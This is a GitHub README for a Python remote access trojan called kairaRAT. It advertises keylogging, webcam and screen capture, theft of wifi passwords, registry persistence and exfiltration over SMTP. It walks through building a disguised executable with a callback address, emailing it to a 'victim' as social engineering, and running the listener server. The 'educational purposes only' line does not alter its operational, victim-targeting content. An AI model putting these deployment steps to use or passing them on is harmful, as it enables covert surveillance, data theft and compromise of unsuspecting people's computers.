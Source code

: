 # kairaRAT
kairaRAT is a remote access trojan tool built with python.

![kaira1](https://github.com/st4inl3s5/kairaRAT/assets/68844502/201fb3a4-f68a-4c0e-bdc8-cc04f8e376b0)

## Features

+ File/directory managing (delete, rename, create, change etc.)

+ Download files from victim's computer using SMTP server.

+ Executing command on windows command prompt.

+ Taking screenshots from victim's computer using SMTP server.

+ Taking victim's camera snapshots using SMTP server.

+ Keylogger.

+ Persistence(hides trojan to registry and copies itself.)

+ Taking wifi names and passwords.

+ Connection without disconnection.

+ Can be merged with an arbitrary file.

+ Automatic build mode.

+ Automatic update mode.

## EDUCATIONAL PURPOSES ONLY.

#### I am not responsible in bad uses of kairaRAT.

## SETUP

You need 2 OS.1)Linux OS 2)Windows OS.Linux for listening connections and managing connections.Windows for building .exe executable file.To make setup, execute the following command on both of them :

+ pip install -r requirements.txt

  ## USAGE

  1. If you want to put icon for the trojan, go to internet and find a image file.Then convert this image file to icon file(with .ico extension) and save this icon to your windows.And if you want to merge a file with trojan too, go to internet and find a merge file(this can be .docx, .png, .jpg etc.) and save to your windows.(This step is optional for social engineering.)
 
  2. If you want to download files from victim's computer, find a SMTP server on the internet and register.(This step is optional for downloading files from victim.)
 
  3. In windows, open a command prompt terminal and change the directory to the kairaRAT project directory.Build the executable file with following command :
 
  + python main.py build -ip <your_server_ip_address> -p <your_server_port> -i <icon_file(optional)> -m <file_to_merge(optional)> -n <file_name_after_build_finish(optional)>
 
  + Example : python main.py build -ip 172.28.89.113 -p 4444 -i filetoicon.ico -m hashtypes.png -n kaira.exe
 
  + Example : python main.py build -ip 172.28.89.113 -p 4444 -n kaira.exe
 
  ![kaira2](https://github.com/st4inl3s5/kairaRAT/assets/68844502/25ed23eb-8bcc-493b-aad0-ebc45feab032)

  4. Wait for building process.When the building finished, you see a message :
 
  ![kaira3](https://github.com/st4inl3s5/kairaRAT/assets/68844502/568461f6-b98b-41a8-b494-61333ee53e51)

  5. Check the builds directory.You must see the executable file.

  ![kaira4](https://github.com/st4inl3s5/kairaRAT/assets/68844502/353e7f0e-4a00-4a20-87b0-9aae4838f184)

  6. After that, send this executable file to your victim via email etc.And wait for victim's execute the file.When executed, the merge file will be opened(if you configured to) and trojan executing in background.Copies itself and makes persistence.
 
  ![kaira5](https://github.com/st4inl3s5/kairaRAT/assets/68844502/291e24b1-8310-41db-8d40-a0dc28e37833)

  7. Then listen the connections on your linux with the following command :
 
  +  python3 main.py server -ip <your_server_ip_address> -p <your_server_port> -sh <smtp_address(optional)> -sp <smtp_port(optional)> -se <smtp_email(optional)> -spass <smtp_password(optional)>
 
  +  Example : python3 main.py server -ip 172.28.89.113 -p 4444 -sh "smtp.gmail.com" -sp 587 -se "testsmtp@gmail.com" -spass "password123"
 
  +  Example : python main.py server -ip 172.28.89.113 -p 4444
 
  8. When the connection established, a screen like this appear :

  ![kaira6](https://github.com/st4inl3s5/kairaRAT/assets/68844502/f520e7d2-d121-4b42-a4af-cb1cf9edc6e7)

  9. Type 'help' for command list.The usage all of them is written.
 
  10. You can take camera snapshots, screenshots, victim's keylog using SMTP server.Check your email inbox to view.
 
  ![kaira7](https://github.com/st4inl3s5/kairaRAT/assets/68844502/05e6d6a1-9b7d-45d9-ad99-68e2fe0d9fcd)

  ![kaira8](https://github.com/st4inl3s5/kairaRAT/assets/68844502/eeefd26b-82df-42ca-b889-f2e80220dbca)

  ![kaira9](https://github.com/st4inl3s5/kairaRAT/assets/68844502/162305e2-a424-4b03-b625-56d0b338ac5f)

  ![kaira10](https://github.com/st4inl3s5/kairaRAT/assets/68844502/d7e8f807-f73d-475a-9812-01f1cb9bfaaf)

** You can contact me on instagram : https://www.instagram.com/arduinocum.py **

  [!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/st4inl3s5)
